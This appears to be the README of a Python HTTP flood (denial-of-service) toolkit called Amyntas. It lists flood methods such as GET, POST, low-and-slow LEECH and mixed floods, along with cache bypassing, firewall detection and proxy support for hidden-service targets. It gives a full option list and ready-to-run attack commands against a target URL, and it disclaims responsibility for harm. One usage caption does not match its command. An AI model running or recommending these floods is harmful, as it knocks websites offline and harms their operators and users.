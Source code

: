 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know!

--- 

### About
Amyntas is a layer 7 DoS toolkit, with a wide variety of attack methods and the capabilities to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- GET (simple GET flood)
- HEAD (simple HEAD flood)
- POST (simple POST flood)
- FAST (a <strong>GET /</strong> flood)
- GHP/GETHEADPOST (a flood which randomly chooses GET, HEAD or POST as request method)
- LEECH (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- MIX (a method which randomly chooses HTTP request methods)

---

### Features
1. IPv6 support
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxies coming soon)

---

### Known bugs/problems
1. Attack does not end when you want it to end

---

### To Do list
1. More methods
2. More documentation

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its dynamic
-ref REFERER, --referer REFERER        Referer to use when attacking, else its dynamic
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info for devs
-bc, --bypass-cache                    Bypass the cache of the site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 40
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

---

### Requirements

```
requests
argparse
colorama
threading
netaddr
```